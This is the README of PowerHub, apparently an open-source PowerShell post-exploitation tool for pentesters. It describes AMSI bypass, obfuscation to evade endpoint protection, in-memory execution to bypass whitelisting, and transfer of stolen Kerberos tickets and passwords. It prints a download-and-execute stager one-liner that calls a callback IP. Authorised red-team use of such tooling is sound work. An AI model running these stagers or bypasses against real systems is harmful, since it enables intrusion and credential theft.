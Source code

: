 PowerHub
========

PowerHub is a convenient post exploitation tool for PowerShell which aids a
pentester in transferring data, in particular code which may get flagged by
endpoint protection. Check out the
[Wiki](https://github.com/AdrianVollmer/PowerHub/wiki/)! Features:

* Fileless
* Stateless
* Cert pinning
* String "obfuscation" by RC4 encryption
* Choose your AMSI Bypass
* Transparent aliases for in-memory execution of C# programs


![PowerHub Webapp](https://github.com/AdrianVollmer/PowerHub/blob/master/img/powerhub-webapp.png)
![PowerHub Webapp](https://github.com/AdrianVollmer/PowerHub/blob/master/img/powerhub-sharphound.png)

During an engagement where you have a test client available, one of the
first things you want to do is run SharpHound, Seatbelt, PowerUp,
Invoke-PrivescCheck or PowerSploit. So you need to download the files,
mess with endpoint protection, disable the execution policy, etc.
PowerHub provides an (almost) one-click-solution for this. Oh, and you can
also run arbitrary binaries (PE and shell code) entirely in-memory using
PowerSploit's modules, which is sometimes useful to bypass application
whitelisting.

Your loot (Kerberos tickets, passwords, etc.) can be easily transferred back
either as a file or a text snippet, via the command line or the web
interface. PowerHub also helps with collaboration in case you're a small
team.

Here is a simple example (grab information about local groups with PowerView
and transfer it back):

```powershell
PS C:\Users\avollmer> $K=New-Object Net.WebClient;'a=reflection','t=http'|%{IEX $K.DownloadString('http://192.168.11.2:8080/0?'+$_)}
True
  _____   _____  _  _  _ _______  ______ _     _ _     _ ______
 |_____] |     | |  |  | |______ |_____/ |_____| |     | |_____]
 |       |_____| |__|__| |______ |    \_ |     | |_____| |_____]
1.11                        written by Adrian Vollmer, 2018-2022
Run 'Help-PowerHub' for help
PS C:\Users\avollmer> Get-HubModule PowerView


Name   : /home/avollmer/.local/share/powerhub/modules/PowerSploit/Recon/PowerView.ps1
Type   : ps1
N      : 205
Loaded : True
Alias  :

PS C:\Users\avollmer> Get-LocalGroup | PushTo-Hub -Name groups.json
```


Installation
============

PowerHub can be installed like any other Python package. Just execute
`python3 -m pip install powerhub`. If you like to work with virtual
environments, I recommend [pipx](https://github.com/pypa/pipx/).

If you want to use the latest version on the dev branch, clone this
repository and install with `python3 -m pip install -e .`.

For building the payloads, you need the MinGW GCC and Mono C# compilers. On
Debian-like systems, you can install them with `apt-get install mono-mcs
gcc-mingw-w64-x86-64 gcc-mingw-w64-i686`.


Usage
=====

PowerHub has one mandatory argument: the callback host (can be an IP
address). You should also use `--auth <user>:<pass>`, otherwise, a randomly
generated password will be used for basic authentication. The switch
`--no-auth` disables basic authentication which is *not recommended*. The
callback host name is used by the stager to download the payload. If the
callback port or path differ from the default, it can also be changed.

Read `powerhub --help` and the [Wiki](https://github.com/AdrianVollmer/PowerHub/wiki/Usage) for details.


Credits
=======

PowerHub is partially based on the awesome work of zc00l, @am0nsec, mar10,
p3nt4, @SkelSec. And of course, it would be nothing without @harmj0y,
@mattifestation and the many other contributors to
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit).

Thanks!

Author
======

Adrian Vollmer, 2018-2022

Disclaimer
==========

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
